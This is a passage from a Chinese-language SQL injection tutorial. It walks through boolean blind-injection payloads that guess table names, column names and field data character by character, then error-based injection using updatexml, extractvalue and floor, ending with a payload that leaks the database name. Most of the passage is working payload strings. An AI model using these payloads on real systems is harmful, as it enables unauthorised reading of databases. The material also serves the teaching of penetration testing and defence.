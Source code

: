 **4、判断数据库表名**

```sql
' and substr((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),1,1)='a'--+

--修改1,1前边的1~20，逐字符猜解出第一个表的名
--修改limit的0,1前边的0~20，逐个猜解每个表
```

**5、判断数据库字段名**

```sql
' and substr((select column_name from information_schema.columns where table_schema='数据库名' and table_name='表名' limit 0,1),1,1)='a'--+

--修改1,1前边的1~20，逐字符猜解出第一个字段的名
--修改limit的0,1前边的0~20，逐个猜解每个字段
```

**6、取数据**

```sql
' and substr((select 字段名 from 表名 limit 0,1),1,1)='a'--+
```

当然如果嫌用Burp慢的话，可以自己编写脚本，修改payload就行了

一般盲注的话都是自己写脚本比较快。

## 报错注入

在SQL注入攻击过程中，服务器开启了错误回显，页面会返回错误信息，利用**报错函数**获取数据库数据。

常用的MySQL报错函数

```sql
--xpath语法错误
extractvalue()	--查询节点内容
updatexml()		--修改查询到的内容
它们的第二个参数都要求是符合xpath语法的字符串
如果不满足要求则会报错，并且将查询结果放在报错信息里

--主键重复（duplicate entry）
floor()			--返回小于等于该值的最大整数
只要是count，rand()，group by 三个连用就会造成这种主键重复报错
```

**1、尝试用单引号报错**

**2、获取数据库名**

```sql
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+


--0x7e是"~"符号的16进制，在这作为分隔符
```
